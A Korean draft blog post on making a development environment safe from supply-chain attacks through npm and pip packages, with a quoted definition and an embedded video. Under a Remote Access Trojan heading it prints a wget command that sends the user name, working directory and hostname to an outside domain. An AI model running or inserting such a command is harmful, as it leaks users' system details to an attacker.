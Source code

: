 ```yaml
---
title: '안전한 개발환경을 만들어보자'
authors: [arch-spatula]
tags: ['docker', '보안', 'npm']
description: '개발환경의 보안을 신경써봅시다.'
toc_max_heading_level: 6
draft: true
---
```


# 안전한 개발환경을 만들어보자

<!--truncate-->

## 배경

![](/img/2024-01-31/gilbert.jpeg)

> 인간이 잘하는 것이 하나 있다면 그것은 새로운 걱정을 찾는 것이다
>
> Gilbert(넷플릭스 샌드맨 ~~몇 화인지 모름~~)

취업하고 배가 따시하기 시작하니까 저는 이제 새로운 걱정이 생겼습니다. 보안입니다.

공부 혹은 취미로 코딩하는데 언제든지 멀웨어가 설치될 수 있습니다. github 돌아다니면서 재미있어 보이면 설치해봅니다. 그 과정에 언제든이 멀웨어가 설치될 수 있습니다.

<iframe class="codepen" src="https://www.youtube.com/embed/DjfpcmK62ew" title="지금! 🚨 개발자라면 무조건 알아야하는 NPM 해킹" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

더 정확히는 위 영상을 보면서 생겨난 의문들과 대응 방안들을 찾고자 이 글을 쓰기 시작했습니다. 또 npm에 docker 설정한다는 언제 알려줄지도 모릅니다. 마냥 기다리기는 싫어서 제가 다루고 싶어졌습니다.

## 보안 취약점

### 공급망 공격

> 공격자가 기업(개발자)의 소프트웨어 설치 및 업데이트 배포 과정에 침입해 정상 소프트웨어인 것처럼 꾸민 악성 소프트웨어를 사용자 기기에 설치하는 방식
>
> 보안뉴스

공급망 공격은 패키지 생태계가 있는 모든 프로그래밍 언어는 해당합니다. 표준 라이브러리가 아닌 설치가 필요한 시점부터 모두 취약점입니다. 저간 soydev는 npm, pip에 의존을 많이 하고 있는데 설치할 때마다 저의 기계가 탈취될 가능성을 만드는 것입니다.

어느정도 오픈소스 커뮤니티에서 알려진 라이브러리를 사용하면 피해규모를 줄일 수 있을 것이라고 많이 착각합니다. 피해자가 많으면 대응하려는 사람이 많으니까 비교적 안전할 것이고 PR에 보안문제를 만드는 것을 통과시킬 가능성은 낮겠죠? 우리는 안일합니다. 언제든지 첨보자산은 변절(Compromised)할 수 있습니다. 구글이 알리바바에게 매수당하고 백도어를 언제 만들지 모릅니다. ~~알루미늄 모자는 내려 놓고~~

RAT Remote Access Trojan

```sh
wget --quiet "https://curetosec.online/?user=$(whoami)&path=$(pwd)&hostname=$(hostname)"
```

<!-- [LLM 전두엽 제거수술](https://www.youtube.com/watch?v=GyllRd2E6fg&pp=ygUIZmlyZXNoaXA%3D)을 하려는데 AI 수술대 AWS를 위한 `.env` 정보가 털린다거나 하는 것은 흔합니다. -->

<!-- 바로 저의 보안 취약점입니다. 저는 언제 해킹당할지 모른다는 생각을 갖고 있습니다. 언제 저도 모르게 저의 컴퓨터에 키로거(key logger)가 설치 되어 있고 원격서버에 실시간으로 전송할지 모른다는 생각을 갖고 있습니다. 클립보드에 이상한 값이 들어오면 바로 swap할 것이라는 생각을 갖고 있습니다. 가끔 휴대폰을 확인하면서 어디서 로그인 시도가 발생했는지 걱정하고 있습니다. 극단적으로 MFA가 뚤렸다는 생각도 갖고 있습니다. -->

<!-- 하지만 모든 것들은 생각입니다. 지금 현재 갖고 있는 지식에서 이 보안을 하나둘씩 대응하기에는 지식이 부족합니다. -->
